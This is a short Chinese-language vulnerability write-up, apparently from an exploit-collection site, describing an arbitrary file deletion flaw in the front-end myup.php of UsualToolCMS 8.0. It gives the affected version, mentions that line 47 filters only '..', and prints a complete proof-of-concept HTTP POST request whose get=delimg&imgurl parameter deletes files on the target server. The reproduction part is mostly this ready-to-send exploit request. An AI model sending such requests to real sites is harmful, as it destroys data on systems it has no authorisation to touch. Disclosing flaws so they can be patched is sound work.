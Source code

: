 UsualToolcms前台任意文件删除
============================

一、漏洞简介
------------

前台myup.php文件最后一段存在任意文件删除

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

漏洞点：<http://0-sec.org/myup.php>

![](./resource/UsualToolcms8.0myup.php前台任意文件删除/media/rId25.shtml)

第47行只对..精心过滤，我仍然能任意删除网站内部的文件，直接构造poc，

![](./resource/UsualToolcms8.0myup.php前台任意文件删除/media/rId26.shtml)

![](./resource/UsualToolcms8.0myup.php前台任意文件删除/media/rId27.shtml)

    POST /UsualToolCMS/myup.php HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    get=delimg&imgurl=./1.ph
